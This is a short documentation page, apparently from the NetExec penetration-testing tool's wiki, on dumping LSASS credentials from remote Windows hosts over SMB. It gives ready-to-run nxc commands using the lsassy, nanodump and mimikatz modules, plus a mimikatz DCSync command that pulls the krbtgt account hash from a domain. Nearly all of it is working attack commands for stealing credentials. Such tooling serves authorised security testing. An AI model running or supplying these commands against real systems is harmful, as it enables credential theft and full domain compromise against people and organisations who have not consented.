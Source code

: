 # Dump LSASS

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

### Using Lsassy

Using the module Lsassy from [@pixis ](https://twitter.com/HackAndDo), you can dump the credentials remotely

```
#~ nxc smb 192.168.255.131 -u administrator -p pass -M lsassy
```

### Using nanodump

Using the module nanodump you can dump the credentials remotely

```
#~ nxc smb 192.168.255.131 -u administrator -p pass -M nanodump
```

### Using Mimikatz (deprecated)

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

Using the Mimikatz module, the powershell script `Invoke-Mimikatz.ps1` will be executed on the remote target

```
#~ nxc smb 192.168.255.131 -u administrator -p pass -M mimikatz
```

```
#~ nxc smb 192.168.255.131 -u Administrator -p pass -M mimikatz -o COMMAND='"lsadump::dcsync /domain:domain.local /user:krbtgt"
```

